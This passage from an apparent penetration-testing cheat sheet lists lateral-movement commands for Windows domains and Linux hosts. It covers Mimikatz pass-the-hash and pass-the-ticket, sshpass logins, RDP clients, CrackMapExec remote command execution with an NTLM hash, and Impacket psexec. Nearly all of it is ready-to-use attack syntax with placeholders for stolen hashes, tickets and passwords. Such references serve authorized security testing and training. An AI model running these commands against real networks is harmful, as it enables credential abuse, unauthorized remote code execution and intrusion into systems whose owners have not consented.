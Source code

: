     ```powershell
    sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<NTLM_hash> /rc4:<NTLM_hash> /run:cmd.exe
    ```
    

#### 7.3 Pass-the-Ticket (PTT) Attack 

- **Mimikatz**:
    
    ```powershell
    kerberos::ptt <ticket.kirbi>
    ```
    
    Use this command after extracting a TGT or TGS ticket to impersonate a user on the domain.

#### 7.4 Lateral Movement via SSH 

- **SSHPass (Linux)**:
    
    ```bash
    sshpass -p <password> ssh <username>@<target_ip>
    ```
    

#### 7.5 Remote Desktop Protocol (RDP) 

- **rdesktop**:
    
    ```bash
    rdesktop -u <username> -p <password> <target_ip>
    ```
    
- **xfreerdp (Linux)**:
    
    ```bash
    xfreerdp /u:<username> /p:<password> /v:<target_ip>
    ```
    

#### 7.6 Lateral Movement via SMB 

- **CrackMapExec (CME)**:
    
    ```bash
    cme smb <target_ip> -u <username> -H <NTLM_hash> -x <command>
    ```
    
- **PsExec (Impacket)**:
    
    ```bash
    psexec.py <domain>/<username>:<password>@<target_ip> cmd.exe
    ```
    

#### 7.7 Lateral Movement via PSExec 

- **PsExec**:
    
    ```bash
    psexec.py <domain>/<username>:<password>@<target_ip>
    ```
    
